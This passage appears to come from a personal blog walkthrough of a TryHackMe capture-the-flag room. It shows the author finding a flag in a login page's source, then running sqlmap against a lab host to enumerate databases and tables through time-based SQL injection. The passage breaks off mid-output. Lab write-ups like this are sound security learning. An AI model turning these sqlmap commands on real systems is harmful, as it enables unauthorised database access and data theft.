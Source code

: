 - Ironically I found the flags for 19 & 13, but not 3 🤦🏾‍♂️.

- Trying common.txt gives us the same results for the most part, but when looking at */login* source the flag is right there 🫠.

![Image showing me finding the flag in the source](blog/ctfcollectionvol2pics/easteregg3.png 'Fig.5')
<div style={{ textAlign: 'center' }}>
  <small>Fig.5</small>
</div>

- Guess I will continue tomorrow because it is a school night 😴.

## 🐥 Easter Egg 4

- It's the morning, so let's continue finishing up the room...

- The hint says "time-based sqli" so I will be using SQLmap to solve the challenge.

- I ran `python3 sqlmap.py  --dbs -r /Users/vipin/tech/CTFs/TryHackMe/ctfcolvol2/postreq.txt -D THM_f0und_m3 --tables`


```bash
❯ python3 sqlmap.py  --dbs -r /Users/vipin/tech/CTFs/TryHackMe/ctfcolvol2/postreq.txt -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[16:49:12] [INFO] retrieved:
[16:49:17] [INFO] adjusting time delay to 1 second due to good response times
nothing_inside
[16:50:19] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[16:50:35] [INFO] fetched data logged to text files under '/Users/vipin/.local/share/sqlmap/output/10.10.121.142'

```

- Ok, let's look inside the *nothing_inside* table

```bash

Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
```